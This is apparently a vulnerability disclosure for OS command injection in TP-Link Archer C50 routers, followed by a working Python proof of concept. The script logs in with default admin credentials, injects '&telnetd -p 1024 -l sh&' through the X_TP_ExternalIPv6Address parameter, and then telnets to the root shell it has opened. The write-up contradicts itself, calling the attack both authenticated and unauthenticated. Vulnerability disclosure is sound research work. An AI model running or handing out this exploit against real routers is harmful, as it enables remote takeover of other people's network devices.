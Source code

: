 # Archer_C50
Exploit Author: yangchunyu@whu.edu.cn

Vendor: TP-Link

Firmware: Archer_C50(TW)_V1_160614

There is remote authenticated OS command injection on TP-Link Archer C50 devices vie the X_TP_ExternalIPv6Address HTTP parameter, allowing a remote attacker to run arbitrary commands on the router with root privileges.

Perform command concatenation on the X_TP_ExternalIPv6Address parameter in the HTTP POST message, the unauthenticated remote attacker can execute the shell command.

The similar vulnerability already exists with CVE-2021-44827.

# poc
import requests

import base64

import os

import time

ip = targetIPAddress

username = "admin"

password = "admin"

tplink_url = "http://" + ip + "/cgi?2&2"

userinfo = username + ":" + password

cookie = "Authorization=Basic " + base64.b64encode(userinfo.encode()).decode("ascii")

referer = "http://" + ip +"/mainFrame.htm"

cmd = "telnet " + ip + " 1024"

payload_template = """[WAN_ETH_INTF#1,0,0,0,0,0#0,0,0,0,0,0]0,1\r

X_TP_lastUsedIntf=ipoe_eth3_s\r

[WAN_IP_CONN#1,1,1,0,0,0#0,0,0,0,0,0]1,21\r

externalIPAddress=192.168.9.222\r

subnetMask=255.255.255.0\r

defaultGateway=192.168.9.2\r

NATEnabled=1\r

X_TP_FullconeNATEnabled=0\r

X_TP_FirewallEnabled=1\r

X_TP_IGMPProxyEnabled=1\r

X_TP_IGMPForceVersion=0\r

maxMTUSize=1500\r

DNSOverrideAllowed=1\r

DNSServers=192.168.9.3,0.0.0.0\r

X_TP_IPv4Enabled=1\r

X_TP_IPv6Enabled=0\r

X_TP_IPv6AddressingType=Static\r

X_TP_ExternalIPv6Address=commond\r

X_TP_PrefixLength=64\r

X_TP_DefaultIPv6Gateway=::\r

X_TP_IPv6DNSOverrideAllowed=0\r

X_TP_IPv6DNSServers=::,::\r

X_TP_MLDProxyEnabled=0\r

enable=1\r
"""
payload = payload_template.replace("commond", "::")

res = requests.post(tplink_url, data=payload, headers={"Referer": referer, "Cookie": cookie})

time.sleep(5)

payload = payload_template.replace("commond", "&telnetd -p 1024 -l sh&")

res = requests.post(tplink_url, data=payload, headers={"Referer": referer, "Cookie": cookie})

os.system(cmd)
